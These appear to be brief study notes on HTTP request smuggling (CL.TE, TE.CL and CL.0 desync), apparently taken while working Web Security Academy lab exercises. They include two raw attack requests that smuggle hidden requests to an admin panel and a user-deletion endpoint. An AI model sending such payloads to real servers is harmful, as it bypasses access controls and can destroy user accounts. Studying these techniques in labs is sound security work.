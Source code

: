 <h> CL.TE Desync Attack </h>
-> In this attack, frontend will interpret a web request using its content length header and the backend will interpret the same request using transfer encoded header.

<h> TE.CL Desync Attack </h>
-> In this attack, frontend will interpret a web request using  its chunked length header and the backend will interpret the same request using content length.

```
POST / HTTP/1.1
Host: 0a0d0091033ab07f81a6b10e000a007f.web-security-academy.net
Content-Length: 4
Transfer-Encoding: chunked
\r\n
13\r\n
GET /admin HTTP/1.1\r\n
0\r\n
\r\n


```
-> In HTTP/2 , if we use Transfer-Encoding: chunked header then it will response as `protocol error`

<p> CL.0 </p>
-> here frontend server accept content-length header but backend server does not support any header so, it interpret `\r\n\r\n` as end of the request, then the second request is smuggled.
```
POST /resources/images/blog.svg HTTP/2
Host: 0a5c00a7032aee9e838e198100e30004.web-security-academy.net
Cookie: session=DD74Q0cZjmasr1aIQi9wT1dfW75N96XR
Content-Length: 52\r\n
\r\n
GET /admin/delete?username=carlos HTTP/1.1
x-Host: 
```
